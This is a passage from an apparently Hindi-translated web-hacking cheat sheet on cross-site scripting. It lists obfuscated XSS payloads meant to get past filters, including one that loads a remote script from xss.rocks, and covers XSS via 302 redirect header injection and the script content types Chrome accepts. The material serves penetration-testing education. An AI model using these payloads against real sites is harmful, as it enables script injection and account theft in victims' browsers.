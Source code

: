 ```markup
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert('1'&#41</x>
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<svg><animate onbegin=alert() attributeName=x></svg>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);">
(function(x){this[x+`ert`](1)})`al`
window[`al`+/e/[`ex`+`ec`]`e`+`rt`](2)
document['default'+'View'][`\u0061lert`](3)
```
### XSS with header injection in a 302 response

यदि आप पाते हैं कि आप **302 Redirect प्रतिक्रिया में हेडर इंजेक्ट कर सकते हैं** तो आप **ब्राउज़र को मनमाना JavaScript निष्पादित करने** की कोशिश कर सकते हैं। यह **सरल नहीं है** क्योंकि आधुनिक ब्राउज़र HTTP प्रतिक्रिया स्थिति कोड 302 होने पर HTTP प्रतिक्रिया शरीर को नहीं समझते हैं, इसलिए केवल एक क्रॉस-साइट स्क्रिप्टिंग पेलोड बेकार है।

[**इस रिपोर्ट**](https://www.gremwell.com/firefox-xss-302) और [**इस रिपोर्ट**](https://www.hahwul.com/2020/10/03/forcing-http-redirect-xss/) में आप पढ़ सकते हैं कि आप कैसे स्थान हेडर के अंदर कई प्रोटोकॉल का परीक्षण कर सकते हैं और देख सकते हैं कि क्या इनमें से कोई भी ब्राउज़र को XSS पेलोड को शरीर के अंदर निरीक्षण और निष्पादित करने की अनुमति देता है।\
पिछले ज्ञात प्रोटोकॉल: `mailto://`, `//x:1/`, `ws://`, `wss://`, _खाली स्थान हेडर_, `resource://`।

### केवल अक्षर, संख्या और बिंदु

यदि आप यह इंगित करने में सक्षम हैं कि **callback** जो JavaScript **निष्पादित** करने जा रहा है, उन वर्णों तक सीमित है। [**इस पोस्ट के इस अनुभाग को पढ़ें**](./#javascript-function) यह जानने के लिए कि इस व्यवहार का दुरुपयोग कैसे किया जाए।

### XSS के लिए मान्य `<script>` सामग्री-प्रकार

(से [**यहां**](https://blog.huli.tw/2022/04/24/en/how-much-do-you-know-about-script-type/)) यदि आप एक **सामग्री-प्रकार** के साथ स्क्रिप्ट लोड करने की कोशिश करते हैं जैसे `application/octet-stream`, तो Chrome निम्नलिखित त्रुटि फेंकेगा:

> ‘[https://uploader.c.hc.lc/uploads/xxx'](https://uploader.c.hc.lc/uploads/xxx') से स्क्रिप्ट निष्पादित करने से इनकार कर दिया गया क्योंकि इसका MIME प्रकार (‘application/octet-stream’) निष्पादित नहीं किया जा सकता है, और सख्त MIME प्रकार जांच सक्षम है।

केवल **Content-Type** जो Chrome को **लोड की गई स्क्रिप्ट** चलाने का समर्थन करेगा, वे हैं जो const **`kSupportedJavascriptTypes`** के अंदर हैं [https://chromium.googlesource.com/chromium/src.git/+/refs/tags/103.0.5012.1/third\_party/blink/common/mime\_util/mime\_util.cc](https://chromium.googlesource.com/chromium/src.git/+/refs/tags/103.0.5012.1/third\_party/blink/common/mime\_util/mime\_util.cc)
```c
const char* const kSupportedJavascriptTypes[] = {
"application/ecmascript",
"application/javascript",
"application/x-ecmascript",
"application/x-javascript",
"text/ecmascript",
"text/javascript",
"text/javascript1.0",
"text/javascript1.1",
"text/javascript1.2",
"text/javascript1.3",
"text/javascript1.4",
"text/javascript1.5",
```